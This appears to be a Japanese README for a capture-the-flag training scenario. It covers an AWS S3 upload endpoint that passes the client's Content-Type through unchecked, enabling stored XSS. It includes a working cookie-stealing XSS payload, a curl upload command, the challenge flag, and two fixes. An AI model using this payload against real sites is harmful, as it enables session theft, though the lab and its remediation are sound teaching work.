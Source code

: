 # シナリオ 1 - SDK を用いた任意の HTML ファイルのアップロード

[Japanese](./README.md) / [Top](../../README.en.md)

## 起動

```sh
cdk deploy Scenario1
# または
make start-Scenario1
```

## 概要

このシナリオは、AWS SDK を用いた S3 へのファイルのアップロードを模したアプリケーションと管理者がチャレンジの対象となります。チャレンジの最終的な目的は、問い合わせ窓口の先にいる管理者の Cookie を取得することです。
管理者の動きは、"Administrator Operation Mock"が模擬的に行います。管理者は、ユーザーから送られたアプリケーションの URL を閲覧し、その結果を`/delivery`の S3 に保存をします。

![Scenario1 のアーキテクチャ](design.png)

## Solution

ここからは、このシナリオの解決策を説明します。

### 動作の整理

対象となるアプリケーションでは、以下のような動作を行います。

1. User は Application のエンドポイントに対してファイルをアップロードするリクエストを送信します。
2. Application は、リクエストを受け取り、そのファイルを S3 にアップロードします。
   - この際、Application は、UUIDv4 を生成し、その UUIDv4 をファイル名として S3 にアップロードします。
3. S3 は、そのファイルを受け取り、そのファイルを保存します。
4. Application は、そのファイルのファイル名を User に返却します。
5. User は、そのファイル名を用いて、そのファイルを閲覧することが可能です。

この際、S3 にアップロードするファイルに対して、特段のチェックは行われていませんでした。

### ソースコードの確認

先に動作の整理をしましたが、実際にどのようにソースコードが実装されているかを確認しましょう。
`cdk/lib/scenario1/application/src/app.ts`をご覧ください。

`/api/upload`のエンドポイントは、以下のように実装されています。

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

アプリケーションから、S3 に直接アップロードされる仕様となっており、`ContentType: data.mimetype,`とあるように、アプリケーションにリクエストされたファイルの値が、そのまま S3 にアップロードされています。

そのためユーザーは、HTML ファイルを直接アップロードすることが可能になります。

### 攻略の糸口

このチャレンジシナリオでは、ブラウザが HTML ファイルと認識可能なファイルをアップロードし、その HTML ファイルを経由して、管理者の Cookie を奪取することが目的になります。

この目的を達成する手法は多く存在しますが、今回は単純に管理者の Cookie を HTML としてレンダリングし、`/delivery`の S3 に保存をして、その結果をユーザーが閲覧することで、管理者の Cookie を奪取してみましょう。

アップロードを行うファイルとして、下記の HTML をアップロードすることで、管理者のブラウザで任意の JavaScript を実行することが可能です。
実行される JavaScript は、管理者の Cookie を取得し、その Cookie を HTML としてレンダリングします。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

先の HTML を保存し、`xss.html`としてください。
その後、以下のコマンドを実行することで、任意の HTML ファイルをアップロードすることが可能です。

```sh
TARGET_HOST="....."
curl -X POST -F "file=@xss.html" https://${TARGET_HOST}/api/upload
```

その後、出力された URL を Report URL に入力することで、管理者の画面で任意の JavaScript を実行することが可能です。
実行後は、`/delivery/{uuid}`の S3 に保存されたファイルを閲覧することで、管理者の Cookie を含んだ HTML ファイルを閲覧することが可能です。

## チャレンジの回答

```
flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```

## アップローダーの修正方法

最後に、アップローダーの修正方法を説明します。

`cdk/lib/scenario1/application/src/app.ts`の`/api/upload`に実装が行われています。この実装の中では、特段利用される`Content-Type`のチェックは行われていません。
そこで、対策方法としては、`Content-Type`の値を完全一致でチェックする、もしくは、`Content-Type`の値を決め打ちで入力を行うことで、対策が可能です。

**Fix 1: Content-Type のチェックを行う**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});

  // Fix : MimeType Check
  const allowedMimeTypes = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allowedMimeTypes.includes(data.mimetype)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

**Fix 2: Content-Type の値を決め打ちで入力する**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    // Fix : ContentType を決め打ちで入力する
    ContentType: 'application/octet-stream',
    ContentDisposition: `attachment; filename="${filename}.png"`,
  });
  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```
